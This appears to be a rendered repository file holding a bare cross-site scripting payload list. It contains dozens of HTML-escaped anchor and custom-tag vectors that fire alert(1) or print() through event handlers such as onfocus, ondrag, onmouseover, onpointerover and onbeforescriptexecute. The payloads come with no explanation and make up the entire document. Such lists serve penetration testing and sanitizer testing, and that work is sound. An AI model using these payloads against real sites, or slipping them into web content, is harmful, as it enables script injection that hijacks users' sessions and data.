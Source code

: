 # Payload
<body><pre style="word-wrap: break-word; white-space: pre-wrap;">&lt;a autofocus onfocus=alert(1) href&gt;&lt;/a&gt;
&lt;a autofocus onfocusin=alert(1) href&gt;&lt;/a&gt;
&lt;a draggable="true" ondrag="alert(1)"&gt;test&lt;/a&gt;
&lt;a draggable="true" ondragend="alert(1)"&gt;test&lt;/a&gt;
&lt;a draggable="true" ondragenter="alert(1)"&gt;test&lt;/a&gt;
&lt;a draggable="true" ondragleave="alert(1)"&gt;test&lt;/a&gt;
&lt;a draggable="true" ondragstart="alert(1)"&gt;test&lt;/a&gt;
&lt;a id=x tabindex=1 onactivate=alert(1)&gt;&lt;/a&gt;
&lt;a id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/a&gt;
&lt;a id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/a&gt;&lt;input autofocus&gt;
&lt;a id=x tabindex=1 ondeactivate=print()&gt;&lt;/a&gt;&lt;input id=y autofocus&gt;
&lt;a id=x tabindex=1 onfocus=alert(1)&gt;&lt;/a&gt;
&lt;a id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/a&gt;
&lt;a onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;a onbeforecopy="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onbeforecut="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onbeforepaste="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;a onblur=alert(1) tabindex=1 id=x&gt;&lt;/a&gt;&lt;input autofocus&gt;
&lt;a onclick="alert(1)"&gt;test&lt;/a&gt;
&lt;a oncontextmenu="alert(1)"&gt;test&lt;/a&gt;
&lt;a oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;a oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;a ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/a&gt;
&lt;a onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/a&gt;&lt;input autofocus&gt;
&lt;a onkeydown="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onkeypress="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onkeyup="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onmousedown="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmouseenter="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmouseleave="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmousemove="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmouseout="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmouseover="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmouseup="alert(1)"&gt;test&lt;/a&gt;
&lt;a onmousewheel=alert(1)&gt;requires scrolling
&lt;a onpaste="alert(1)" contenteditable&gt;test&lt;/a&gt;
&lt;a onpointerdown=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerenter=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerleave=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointermove=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerout=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerover=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerrawupdate=alert(1)&gt;XSS&lt;/a&gt;
&lt;a onpointerup=alert(1)&gt;XSS&lt;/a&gt;
&lt;a2 draggable="true" ondrag="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 draggable="true" ondragend="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 draggable="true" ondragenter="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 draggable="true" ondragleave="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 draggable="true" ondragstart="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 id=x tabindex=1 onactivate=alert(1)&gt;&lt;/a2&gt;
&lt;a2 id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/a2&gt;
&lt;a2 id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/a2&gt;&lt;input autofocus&gt;
&lt;a2 id=x tabindex=1 ondeactivate=print()&gt;&lt;/a2&gt;&lt;input id=y autofocus&gt;
&lt;a2 onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;a2 onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;a2 onclick="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 oncontextmenu="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;a2 oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test